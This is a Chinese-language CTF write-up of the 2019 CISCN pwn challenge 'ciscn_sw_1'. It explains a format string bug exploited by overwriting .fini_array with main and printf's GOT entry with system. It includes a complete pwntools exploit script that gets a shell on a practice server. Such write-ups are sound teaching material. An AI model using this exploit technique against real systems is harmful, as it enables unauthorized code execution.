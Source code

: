 ```yaml
---
title: 2019_ciscn_sw_1
date: 2022-03-10 20:01:42
tags:
    - 格式化字符串
---
```


<!--more-->

# 2019_ciscn_sw_1

国赛的一道格式化字符串漏洞

![image-20220310173215088](https://s2.loli.net/2022/03/26/5BO7olDqTSdEzeI.png)

进入IDA可以看到printf（format）存在格式化字符串漏洞，但是一般情况下利用格式化字符串printf()是需要两次的，但是这里只有一次，所以需要让程序进行多次运行。



在Linux下的程序运行如下图所示

![image-20220310173559981](https://s2.loli.net/2022/03/26/TeIWQSaYKJ8XiDp.png)

main()函数并不是第一个执行的函数，当程序准备退出的时候会执行finiarray()这个函数，这个函数我们可以直接IDA使用“ctrl+s”查看

![image-20220310173745111](https://s2.loli.net/2022/03/26/Tl2JX3iItdK8sbY.png)

![image-20220310173818518](https://s2.loli.net/2022/03/26/wWEU6xQI4PTfr8n.png)

当我们把这个函数覆盖成main()函数的时候，那么程序会在退出的时候再执行main（）函数

大概运行流程

```
_start-->_libc_start_main-->init-->.init_arry[0]-->.init_arry[1]-->……-->.init_arry[n]-->main-->fini-->.fini_array[n]-->.fini_array[n-1]-->……-->.fini_array[0]
```

这道题大致意思就是把fini覆盖成main函数，第一次覆盖，第二次上传payload

## EXP

```
from pwn import *
context.log_level='debug'
context.arch='i386'
#p=process('./ciscn_2019_sw_1')
p=remote("node4.buuoj.cn",26890)
elf=ELF('./ciscn_2019_sw_1')

main_addr=elf.symbols['main']
printf_got=elf.got['printf']
system_plt=elf.plt['system']#把sys的plt表覆盖到printf上
fini_array=0x0804979C

main_addr_low=(main_addr)&0xffff
main_addr_high=(main_addr>>16)&0xffff
system_plt_low=system_plt&0xffff
system_plt_high=(system_plt>>16)&0xffff

payload=p32(fini_array)+p32(fini_array+2)+p32(printf_got)+p32(printf_got+2)#因为是32位程序，所以把要覆盖的地址写前面
payload+='%'+str(main_addr_low-16)+'c%4$hn'+'%'+str(0x10000-main_addr_low+main_addr_high)+'c%5$hn'#这里main高低位可以去ida直接查看大小，位移4是计算printf位移得出
payload+='%'+str(system_plt_low-main_addr_high)+'c%6$hn'+'%'+str(0x10000-system_plt_low+system_plt_high)+'c%7$hn'#同上理


p.recvuntil('name?\n')
p.sendline(payload)
p.recvuntil('name?\n')
p.sendline('/bin/sh\x00')#覆盖printf后此时printf（）相当于system()
p.interactive()
```

![image-20220326151117344](https://s2.loli.net/2022/03/27/hoLbUQjcvVGsJ6l.png)

